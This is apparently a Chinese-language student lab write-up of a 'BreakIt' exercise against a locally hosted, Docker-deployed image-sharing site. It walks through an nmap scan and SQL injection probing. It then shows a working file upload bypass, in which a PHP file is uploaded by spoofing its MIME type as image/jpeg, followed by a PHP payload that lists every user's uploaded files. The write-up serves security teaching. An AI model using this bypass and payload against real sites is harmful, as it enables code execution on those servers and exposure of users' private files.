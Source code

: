 # BreakIt过程详解

## 实验环境

* VMware16pro
* linux kali22.1
* docker

## 工具使用

## 环境搭建

```bash
# 使用docker快速部署
$ git clone https://github.com/Vir-Dominary/2022-Cybersecurity-Practices.git
$ cd 2022-Cybersecurity-Practices

# 切换到相应分支（后续合并到主目录时还需更改）
$ git checkout docker-byzfd 

# 注意普通用户没有运行docker容器的权限，把普通用户加入到docker组中
$ sudo gpasswd -a $USER docker 
$ newgrp docker

$ docker-compose up -d
```

![1659619450571](img/1659619450571.png)

搭建完毕以后访问 ``127.0.0.1``应用环境，如下图所示：

![1659619559733](img/1659619559733.png)

## 信息收集

### 端口扫描

```bash
# Intense scan
$ nmap -T4 -A -v 127.0.0.1

Discovered open port 80/tcp on 127.0.0.1
Discovered open port 3306/tcp on 127.0.0.1
Discovered open port 443/tcp on 127.0.0.1
Discovered open port 9000/tcp on 127.0.0.1

PORT     STATE SERVICE     VERSION
80/tcp   open  http        nginx 1.19.2
|_http-title: \xE5\x8D\xB3\xE5\x88\xBB\xE4\xBC\xA0\xE5\x9B\xBE
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.19.2

443/tcp  open  tcpwrapped

3306/tcp open  mysql       MySQL 5.7.39
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.39
|   Thread ID: 23
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, LongColumnFlag, InteractiveClient, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, SupportsTransactions, Speaks41ProtocolNew, IgnoreSigpipes, ConnectWithDatabase, SupportsCompression, LongPassword, ODBCClient, DontAllowDatabaseTableColumn, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: s>\x0F\x0Ek&?OkmUU#9XrY{Ws
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.39_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_5.7.39_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-04T13:16:15
| Not valid after:  2032-08-01T13:16:15
| MD5:   a793 adda 1076 1749 7faf 0c69 6439 26eb
|_SHA-1: 72ae 19b0 fc2a 9e6d a7c2 e680 dbeb a4df d0cd bfe8
9000/tcp open  cslistener?

Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 38.279 days (since Mon Jun 27 18:35:01 2022)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

```

扫描得到4个开放端口的信息：80(http nginx 1.19.2),443(https),3306(mysql 5.7.39),9000(cslistener)，以及主机操作系统(linux_kernel:2.6.32)等信息。

### 使用体验

![1660027048421](img/1660027048421.png)

注册需要提交密保问题和答案，便于在忘记密码时重置密码（如下图）：

![1660027146785](img/1660027146785.png)

注册成功后会跳转到登录页面，登陆以后会跳转到网站首页。

首页既是用户的主页，提供登出和修改密码的功能；同时也是网站的主页，展示不同用户分享的图片。如下图所示：

![1660027464080](img/1660027464080.png)

## 可能的漏洞分析

### 强制访问控制

网站主页的路径为/php/home.php，大胆猜想php的文件都放在php这个文件夹内。尝试在未登录条件下访问主页，会强制弹回登陆页面。

用户上传的图片链接形如 ``http://127.0.0.1:8088/image/diemandcarpe/1.jpg``，直接说明用户上传的图片都在服务器的 ``image``文件夹下名为用户id的子目录下，在未登录条件下可以直接访问到这一图片，由于本就是公开图片，所以不存在安全问题。尝试访问 ``image``下的用户目录以查看不公开图片，发现是不行的。

### SQL注入

尝试加入 ``'`` ，``AND``，``OR``等sql标识符，提交以后网站返回的信息均是用户名或密码错误。猜测后端对这些字符进行了转义。

### 文件上传漏洞

尝试上传一个php文件，得到的结果如下图所示：

![1660096613632](img/1660096613632.png)

很显然这是一个后端发出的消息，且前端看起来并没有限制文件类型。

不确定是否启用了后台白名单，如果是的话，这个漏洞也是无法利用的了。

burpsuite抓包，部分字段值如下：

```js
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php
phpinfo()
?>
```

只能先把MIME修改：

```js
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo()
?>
```

发送以后发现竟然提交成功了。

直接在主页找到这一文件的路径：``http://127.0.0.1:8088/image/diemandcarpe/1.php``

php代码执行成功：

![1660097376206](img/1660097376206.png)

接下来对漏洞利用具体化，通过上传一个遍历文件夹内文件的可执行文件，获取各用户所上传图片的文件名，从而实现强制访问控制。

编写的可执行程序如下：

```php 
<?php
function tree($directory)

{

    $mydir=dir($directory);

    while($file=$mydir->read()){

        if((is_dir("$directory/$file")) AND ($file!=".") AND ($file!=".."))

        {

            echo "$file\n";

            tree("$directory/$file");

    } else

    echo "$file\n";

    }

    echo "\n";

    $mydir->close();

}

tree("../");
?>
```

以同样方式上传以后，访问得到：

![1660105192610](img/1660105192610.png)

至此漏洞利用完成。

# 自动化漏洞利用脚本EXP

详见[exp.py](./exp.py)
